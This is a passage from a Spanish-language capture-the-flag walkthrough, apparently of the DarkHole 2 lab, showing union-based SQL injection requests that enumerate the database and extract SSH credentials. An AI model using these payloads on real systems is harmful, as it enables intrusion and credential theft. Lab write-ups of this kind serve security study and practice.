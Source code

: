 Se identificaron 6 columnas activas mediante pruebas incrementales hasta error 500.

**Paso 3 - Identificación de campos inyectables:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,3,4,5,6--+- HTTP/1.1
```
![[darkhole_2.13.png]]
	Los campos 2, 3, 5 y 6 son inyectables y se muestran en la respuesta.

**Paso 4 - Enumeración de bases de datos:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(schema_name),4,5,6+from+information_schema.schemata--+- HTTP/1.1
```
![[darkhole_2.14.png]]
	Bases de datos identificadas: mysql, information_schema, performance_schema, sys, darkhole_2.

**Paso 5 - Enumeración de tablas en darkhole_2:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(table_name),4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+- HTTP/1.1
```
![[darkhole_2.15.png]]
	Tablas identificadas: ssh, users.

**Paso 6 - Enumeración de columnas en tabla ssh:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(column_name),4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- HTTP/1.1
```
![[darkhole_2.16.png]]
	Columnas en tabla ssh: id, user, pass.

**Paso 7 - Extracción de credenciales SSH:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(id,0x3a,user,0x3a,pass),4,5,6+from+darkhole_2.ssh--+- HTTP/1.1
```
![[darkhole_2.17.png]]

> [!success] Credenciales SSH Obtenidas
> Usuario: jehad  
> Contraseña: fool

### Obtención de Shell SSH
